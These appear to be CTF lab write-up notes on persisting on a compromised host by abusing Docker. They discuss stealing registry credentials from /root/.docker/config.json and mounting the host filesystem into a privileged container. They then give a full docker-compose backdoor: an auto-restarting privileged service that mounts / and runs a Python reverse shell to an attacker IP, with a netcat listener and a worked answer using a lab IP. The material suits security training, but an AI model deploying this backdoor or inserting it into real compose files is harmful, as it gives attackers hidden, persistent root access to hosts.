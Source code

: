 Note, that Docker monitoring is also available, however, it is not enabled in this case which gives us a few options:
- We could hijack the existing container supply chain and use it to install a backdoor into one of the containers that are hosted by the system. This would be difficult to detect without additional container monitoring and scanning technology. Credentials for a docker registry could either be phished or extracted from `/root/.docker/config.json` as, this location stores the credentials used with the `docker login` command in plaintext. This won't work in this case though, as the host we compromised doesn't have internet access and there are no credentials in `/root/.docker/config.json`.
- We could modify the existing docker-compose setup to include a privileged SSH enabled container and mount the host's file system to it with `-v /:/hostOS`. The docker-compose file used to define the current setup isn't monitored by the file system integrity monitor as it's in `/var/lib.` Again though, this won't work well in this case as we don't have access to the internet though, you could transport the container images from the attack box to the compromised VM via SSH. You would also need to open up a new port for the ssh connection which, would show up on the system inventory report.
- We could modify an existing or new docker-compose setup by, abusing the `entrypoint` option to grant us a reverse shell. Using docker-compose also allows us to specify automatic restarts which increases the backdoor's resilience. This option also reverses the typical client-server connection model so, we won't need to open any new ports on the host.

```
version: "2.1"

services:
backdoorservice:
restart: always
image: ghcr.io/jroo1053/ctfscore:master
entrypoint: >  
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((<ATTACKBOXIP>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")'

volumes:
- /:/mnt

privileged: true
```

This will create a new docker container using an image that's already available on the system, mount the entire host file system to `/mnt/`on the container and spawn a reverse shell with python. 
`nc -lvnp 4242`

Then start the service on the host with:
`docker-compose up`  

Once these are performed you should have a way to access the vulnerable host without relying on SSH, a vulnerable service, or user credentials. Of course, you will still be able to use these other methods in conjunction with the docker-compose reverse shell as, backups.

Q) Abuse docker to establish a backdoor on the host system.

- find / -type f -name docker-compose.yml
- nano /mnt/var/lib/ctf/docker-compose.yml
- append : 
	`version: "2.1"`
	`services:`
	`backdoorservice:`
	`restart: always`
	`image: ghcr.io/jroo1053/ctfscore:master`
	`entrypoint: >`  
	`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);`
	`s.connect(("10.10.48.75",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);`
	`pty.spawn("/bin/sh")'`
	